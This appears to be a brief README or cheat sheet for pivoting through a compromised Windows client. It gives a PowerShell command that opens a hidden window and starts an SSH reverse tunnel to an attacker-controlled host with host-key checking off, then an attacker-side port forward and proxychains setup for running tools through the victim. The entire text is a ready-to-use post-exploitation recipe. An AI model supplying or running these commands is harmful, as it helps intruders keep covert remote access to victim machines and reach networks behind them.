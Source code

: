 ### Start ssh connection on compromised client
```
Start-Process -FilePath "powershell" -ArgumentList " -w hidden -c ssh -p 22 -o 'StrictHostKeyChecking=no' -i $HOME\.ssh\<privateKey> -N -R 9051 <user>@<sshRhost>"
```

### Connect to tunnel
```
ssh -N -L 127.0.0.1:9050:127.0.0.1:9051 <user>@<sshRhost>
```

### Add DNS resolver to proxy
```
/usr/lib/proxychains3/proxyresolv
```

### Execute tools on attacker machine
```
proxychains firefox
```

